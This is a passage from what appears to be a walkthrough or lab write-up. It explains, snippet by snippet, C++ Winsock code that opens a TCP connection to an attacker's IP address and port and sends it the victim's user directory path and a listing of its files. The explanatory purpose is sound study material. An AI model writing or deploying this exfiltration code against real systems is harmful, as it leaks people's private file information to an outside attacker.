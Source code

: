 #### Snippet 7:

```cpp
WSAStartup(MAKEWORD(2, 0), &WSAData);
```

Explanation: Initialize usage of the winsock library (needed for opening a network connection).

#### Snippet 8:

```cpp
server = socket(AF_INET, SOCK_STREAM, 0);
```

Explanation: Set up a TCP socket. AF\_INET means address family for IPv4. SOCK\_STREAM means that we want a TCP socket.

#### Snippet 9:

```cpp
addr.sin_addr.s_addr = inet_addr("10.10.15.2");
addr.sin_family = AF_INET;
addr.sin_port = htons(5555);
```

Explanation: The above snippet would set the IP address of the target we wish to sent the data to (that would be the attacker's IP address). The port used would be 5555 and the IP address is IPv4 which is indicated by AF\_INET.

#### Snippet 10:

```cpp
connect(server, (SOCKADDR *)&addr, sizeof(addr));
```

Explanation: Connect to the previously set up target host/port.

#### Snippet 11:

```cpp
char* pPath = userDirectory();
```

Explanation: Get the user directory using the userDirectory function.

#### Snippet 12:

```cpp
send(server, pPath, sizeof(pPath), 0);
send(server, "\n", 1, 0);
```

Explanation: Send the user directory path to the attacker. This is followed by a newline so that the output received by the attacker is properly formatted - 1 entry per line.

#### Snippet 13:

```cpp
DIR *dir;
struct dirent *ent;

if ((dir = opendir(pPath)) != NULL) {
    while ((ent = readdir(dir)) != NULL) {
        send(server, ent->d_name, sizeof(ent->d_name), 0);
        send(server, "\n", 1, 0);
        memset(ent->d_name, 0, sizeof(ent->d_name));
    }
    closedir(dir);
}
else {
    perror("");
}
```